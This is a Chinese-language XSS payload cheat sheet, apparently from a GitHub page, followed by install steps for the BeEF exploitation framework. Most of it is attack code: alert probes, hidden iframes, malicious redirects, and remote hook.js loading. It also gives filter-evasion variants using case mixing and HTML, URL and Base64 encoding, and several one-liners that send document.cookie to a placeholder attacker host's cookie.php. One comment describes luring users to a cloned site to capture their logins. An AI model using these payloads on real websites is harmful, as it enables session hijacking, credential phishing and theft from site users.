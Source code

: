 构建 XSS 脚本

```html
<!-- 弹窗警告，一般用于测试目标点是否存在 XSS 漏洞或者演示使用 -->
<script>alert('xss')</script>
<script>alert(document.cookie)</script>

<!-- 页面嵌套 -->
<iframe src=http://www.baidu.com width=300 height=300></iframe>
<iframe src=http://www.baidu.com width=0 height=0 border=0></iframe>

<!-- 页面重定向 -->
<script>window.location="http://www.baidu.com"</script>
<script>location.href="http://www.baidu.com"</script>

<!-- 弹窗警告并重定向,可以重定向到某个网站，也可以访问指定文件 -->
<script>alert("本站迁移，请移步新站点");location.href="http://www.baidu.com/robots.txt"</script>
<!-- 结合社工思路，如站内私信发给其他用户点击并相信则可能在另外的站点(克隆网站)重新登陆账号 -->

<!-- 访问恶意代码,结合其他 XSS 接收平台或者 BeEF 收集用户 cookie -->
<script src="http://xxx.xxx.xxx.xxx/hook.js"></script>

<!-- 利用图片标签 -->
<img src='#' onerror=alert('xss')>
<img src="javascript:alert('xss');">
<img src="http://xxx.xxx.xxx.xxx/hook.js"></img>

<!-- 绕开过滤的脚本 -->
<!-- 大小写 -->
<ScrIpt>alert("xss")</SCRipT>
<!-- 字符编码 HTML 编码、URL 编码、Base64 编码等 -->
<a href="&#x68;&#x74;&#x74;&#x70;&#x3a;&#x2f;&#x2f;&#x78;&#x78;&#x78;&#x2e;&#x78;&#x78;&#x78;&#x2e;&#x78;&#x78;&#x78;&#x2e;&#x78;&#x78;&#x78;&#x2f;&#x68;&#x6f;&#x6f;&#x6b;&#x2e;&#x6a;&#x73;">leon</a>
<a href="%68%74%74%70%3a%2f%2f%78%78%78%2e%78%78%78%2e%78%78%78%2e%78%78%78%2f%68%6f%6f%6b%2e%6a%73"></a>
<a href="aHR0cDovL3h4eC54eHgueHh4Lnh4eC9ob29rLmpz"></a>

<!-- 打开新窗口并采用本地 cookie 访问目标网页 -->
<script>window.open("http://xxx.xxx.xxx.xxx/cookie.php?cookie="+document.cookie)</script>
<script>document.location="http://xxx.xxx.xxx.xxx/cookie.php?cookie="+document.cookie</script>
<script>new Image().src="http://xxx.xxx.xxx.xxx/cookie.php?cookie="+document.cookie;</script>
<img src="http://xxx.xxx.xxx.xxx/cookie.php?cookie="+document.cookie></img>
<iframe src="http://xxx.xxx.xxx.xxx/cookie.php?cookie="+document.cookie></iframe>
```

### BeEF

基于 Ruby.2.5 的XSS 漏洞利用工具，需要安装 bundle 

`git clone https://github.com/beefproject/beef.git`

`bundle install` 
